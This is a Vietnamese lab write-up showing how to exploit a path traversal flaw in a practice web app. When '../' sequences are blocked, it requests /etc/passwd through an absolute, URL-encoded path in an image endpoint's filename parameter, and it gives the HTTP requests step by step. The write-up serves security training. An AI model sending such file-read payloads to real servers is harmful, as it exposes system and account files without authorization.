



# Lab 02: Absolute Path Bypass

## Mục tiêu
Khai thác lỗi Path Traversal để đọc file `/etc/passwd` khi ứng dụng chặn chuỗi `../` nhưng vẫn cho dùng đường dẫn tuyệt đối.

## Đề bài

<br><br>

## Bước 1: Lấy request ảnh
Mở ảnh sản phẩm để thấy endpoint:

```http
GET /image?filename=21.jpg
```


<br><br>

## Bước 2: Bypass bằng absolute path
Trong Burp, sửa tham số `filename` thành đường dẫn tuyệt đối đến file hệ thống:

```http
GET /image?filename=%2fetc%2fpasswd HTTP/2
```

Vì server xử lý giá trị này theo filesystem path, nên dù chặn traversal sequence, nó vẫn đọc được `/etc/passwd`.


<br><br>

## Kết quả
Response trả về nội dung `/etc/passwd` và lab được solve.
